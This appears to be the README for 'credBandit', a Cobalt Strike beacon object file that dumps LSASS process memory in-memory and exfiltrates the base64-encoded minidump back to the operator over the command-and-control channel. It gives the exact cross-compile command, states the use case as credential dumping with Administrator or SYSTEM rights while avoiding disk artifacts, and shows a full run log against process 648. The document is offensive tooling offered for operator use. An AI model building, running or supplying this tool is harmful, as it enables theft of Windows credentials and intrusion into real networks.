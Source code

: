 ### Build Your Own

Run the below command inside the src directory
```
sudo x86_64-w64-mingw32-gcc -o credBanditx64.o -c credBandit.c  -masm=intel
```

### Use Case

> *With Administrator or SYSTEM rights, the operator can perform a memory dump of LSASS without ever touching disk*

### Syntax

1. Perform memory dump and send back through CS using BeaconPrintf function

```
beacon> credBandit 648
[*] Running credBandit by (@anthemtotheego)
[+] host called home, sent: 19049 bytes
[+] received output:
[+] Attempting To Enable Debug Privs

[+] received output:
[+] Attempting To Dump Proccess 648

[+] received output:
[+] NtOpenProcess returned HANDLE 0x0000000000000374

[+] received output:
[+] NtCreateTransaction returned HANDLE 0x00000000000001A0

[+] received output:
[+] RtlSetCurrentTransaction successfully set

[+] received output:
[+] NtCreateFile returned HANDLE 0x00000000000003F0

[+] received output:
[+] RtlSetCurrentTransaction successfully set

[+] received output:
[+] OS Version: 10.0.17763

[+] received output:
[+] MiniDump written to memory

[+] received output:
[+] MiniDump Size In Bytes = 67777472

[+] received output:
[+] NtCreateSection created

[+] received output:
[+] NtMapViewOfSection successful

[+] received output:
[+] Base64 Length In Bytes = 90369964

[+] received output:
[+] Data Exfiltration might Take A Few Minutes So Be Patient...

[+] received output:
[+] Dump completed
```